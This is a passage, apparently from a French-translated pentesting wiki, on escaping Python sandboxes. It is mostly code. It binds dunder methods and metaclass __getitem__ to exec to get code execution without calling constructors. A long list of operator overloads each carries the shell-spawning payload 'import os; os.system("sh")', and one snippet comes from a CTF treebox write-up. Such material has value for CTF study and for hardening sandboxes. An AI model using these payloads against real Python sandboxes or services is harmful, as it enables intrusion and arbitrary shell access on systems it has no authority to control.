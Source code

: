 ```python
    __add__ = exec #Triggered with obj + <argument>

# These lines abuse directly the previous class to get RCE
rce = RCE() #Later we will see how to create objects without calling the constructor
rce["print('Hello from __getitem__')"]
rce + "print('Hello from __add__')"
del rce

# These lines will get RCE when the program is over (exit)
sys.modules["pwnd"] = RCE()
exit()

# Other functions to overwrite
__sub__ (k - 'import os; os.system("sh")')
__mul__ (k * 'import os; os.system("sh")')
__floordiv__ (k // 'import os; os.system("sh")')
__truediv__ (k / 'import os; os.system("sh")')
__mod__ (k % 'import os; os.system("sh")')
__pow__ (k**'import os; os.system("sh")')
__lt__ (k < 'import os; os.system("sh")')
__le__ (k <= 'import os; os.system("sh")')
__eq__ (k == 'import os; os.system("sh")')
__ne__ (k != 'import os; os.system("sh")')
__ge__ (k >= 'import os; os.system("sh")')
__gt__ (k > 'import os; os.system("sh")')
__iadd__ (k += 'import os; os.system("sh")')
__isub__ (k -= 'import os; os.system("sh")')
__imul__ (k *= 'import os; os.system("sh")')
__ifloordiv__ (k //= 'import os; os.system("sh")')
__idiv__ (k /= 'import os; os.system("sh")')
__itruediv__ (k /= 'import os; os.system("sh")') (Note that this only works when from __future__ import division is in effect.)
__imod__ (k %= 'import os; os.system("sh")')
__ipow__ (k **= 'import os; os.system("sh")')
__ilshift__ (k<<= 'import os; os.system("sh")')
__irshift__ (k >>= 'import os; os.system("sh")')
__iand__ (k = 'import os; os.system("sh")')
__ior__ (k |= 'import os; os.system("sh")')
__ixor__ (k ^= 'import os; os.system("sh")')
```
#### Création d'objets avec [méta-classes](https://docs.python.org/3/reference/datamodel.html#metaclasses)

La chose clé que les méta-classes nous permettent de faire est de **créer une instance d'une classe, sans appeler directement le constructeur**, en créant une nouvelle classe avec la classe cible comme méta-classe.
```python
# Code from https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/ and fixed
# This will define the members of the "subclass"
class Metaclass(type):
    __getitem__ = exec # So Sub[string] will execute exec(string)
# Note: Metaclass.__class__ == type
    
class Sub(metaclass=Metaclass): # That's how we make Sub.__class__ == Metaclass
    pass # Nothing special to do

Sub['import os; os.system("sh")']

## You can also use the tricks from the previous section to get RCE with this object
```
#### Création d'objets avec des exceptions
